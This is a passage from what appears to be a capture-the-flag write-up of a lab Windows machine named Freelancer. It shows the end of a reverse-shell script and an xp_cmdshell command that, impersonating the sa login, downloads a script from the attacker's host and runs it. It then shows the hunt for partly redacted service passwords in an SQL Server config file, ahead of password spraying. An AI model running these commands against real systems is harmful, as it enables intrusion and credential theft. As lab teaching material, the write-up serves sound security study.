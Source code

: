 ```
    p.wait()
except KeyboardInterrupt:
    s.close()
```

```
EXECUTE AS LOGIN = 'sa'
EXEC xp_cmdshell 'powershell -noprofile -Command "Invoke-WebRequest http://10.10.14.31:8000/totallynormalpythonscript.py -OutFile C:\Users\Public\totallynormalpythonscript.py" & python C:\Users\Public\totallynormalpythonscript.py';
```

Sure enough, I get my foothold! Unfortunately Defender isn't fond of winPEAS, so I'll have to sift through information by hand.

### Credential Discovery, Password Spraying and SMB Access

In the downloads folder for my user, I find an interesting config file.

```
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0.........."
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3............"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

I net myself two cleartext passwords. From here I want to test them against SMB, but first I'll need a list of users.

```
net user
```
